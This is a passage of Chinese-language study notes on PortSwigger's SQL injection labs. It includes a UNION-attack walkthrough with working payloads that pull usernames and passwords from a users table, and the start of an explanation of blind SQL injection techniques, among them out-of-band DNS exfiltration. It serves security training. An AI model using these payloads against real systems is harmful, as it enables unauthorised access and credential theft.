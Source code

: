 查詢語句的結果包含所有使用者名稱和密碼，例如：

```plaintext
... 
administrator~s3cure 
wiener~peter 
carlos~montoya 
...
```

不同的資料庫使用不同的語法來執行字串串接。更多詳細資訊請參閱 [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)。

* **Lab: [SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)**
  1. 判斷回傳的欄位數量，以及哪個欄位可回傳字串型態
      ```SQL
      /filter?category=Pets' UNION SELECT NULL--
      /filter?category=Pets' UNION SELECT NULL,NULL--
      ```

      ```SQL
      /filter?category=Pets' UNION SELECT 'a',NULL--
      /filter?category=Pets' UNION SELECT NULL,'a'--
      ```
  2. 確認為回傳 2 個欄位，且僅有第 2 個欄位可回傳字串型態
  3. 發送請求取得帳號密碼：`/filter?category=Pets' UNION SELECT NULL,username|| '~' ||password FROM users--`
  4. 使用 `administrator` 使用者的帳號密碼登入後通關

## 盲注 SQL 注入漏洞

許多 SQL 注入實例都是盲注漏洞。這意味著應用程式不會在其回應中返回 SQL 查詢語句的結果或任何資料庫錯誤的詳細資訊。盲注漏洞仍然可以被利用來存取未經授權的資料，但所涉及的技術通常更複雜且更難執行。

以下技術可以用來利用盲注 SQL 注入漏洞，具體取決於漏洞的性質和涉及的資料庫：

* 您可以改變查詢語句的邏輯，根據單一條件的真假來觸發應用程式回應中可檢測到的差異。這可能涉及在某些布林邏輯中注入新條件，或有條件地觸發錯誤，例如除零錯誤。
* 您可以有條件地在查詢語句處理中觸發時間延遲。這使您能夠根據應用程式回應所需的時間來推斷條件的真假。
* 您可以使用 OAST 技術觸發帶外網路互動。這種技術極其強大，在其他技術無效的情況下仍然有效。通常，您可以透過帶外通道直接滲透資料。例如，您可以將資料放入對您控制網域的 DNS 查詢中。

### 盲注 SQL 注入攻擊

在本節中，我們描述尋找和利用盲注 SQL 注入漏洞的技術。

#### 什麼是盲注 SQL 注入？

盲注 SQL 注入發生在應用程式容易受到 SQL 注入攻擊，但其 HTTP 回應不包含相關 SQL 查詢語句的結果或任何資料庫錯誤的詳細資訊時。

許多技術，例如 `UNION` 攻擊，對盲注 SQL 注入漏洞無效。這是因為它們依賴於能夠在應用程式的回應中看到注入查詢語句的結果。仍然可以利用盲注 SQL 注入來存取未經授權的資料，但必須使用不同的技術。

#### 透過觸發條件回應來利用盲注 SQL 注入

考慮一個使用追蹤 cookie 來收集使用情況分析的應用程式。對應用程式的請求包含像這樣的 Cookie 標頭：
`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`
